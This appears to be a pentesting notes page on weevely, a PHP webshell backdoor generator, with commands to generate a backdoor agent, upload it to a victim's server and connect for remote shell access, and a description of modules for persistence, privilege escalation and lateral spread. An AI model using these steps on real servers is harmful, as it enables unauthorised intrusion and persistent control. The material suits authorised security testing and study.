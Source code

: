 ```yaml
---
title: weevely - PHP webshell backdoor generator
draft: false
TableOfContents: true
tag: pentesting, web pentesting, enumeration
---
```



# weevely

Weevely is **a stealth PHP web shell that simulate telnet-like connection**. It is an essential tool for web application post exploitation, and can be used as stealth backdoor or as a web shell to manage legit web accounts, even free hosted ones.

```bash

# Generate backdoor agent
weevely generate <password> <path/to/save/your/phpBackdoorNamefile.php>
#generate is for generating a backdoor
# password to access the file

# Then, you upload the file into the victim's server and use weevely to connect
# Run terminal to the target
 weevely <URL> <password> [cmd]


# Load session file
weevely session <path>
```

Upload weevely PHP agent to a target web server to get remote shell access to it. It has more than 30 modules to assist administrative tasks, maintain access, provide situational awareness, elevate privileges, and spread into the target network.

Read the [Install](https://github.com/epinna/weevely3/wiki/Install) page to install weevely and its dependencies.

Read the [Getting Started](https://github.com/epinna/weevely3/wiki/Getting-Started) page to generate an agent and connect to it.

Browse the [Wiki](https://github.com/epinna/weevely3/wiki) to read examples and use cases.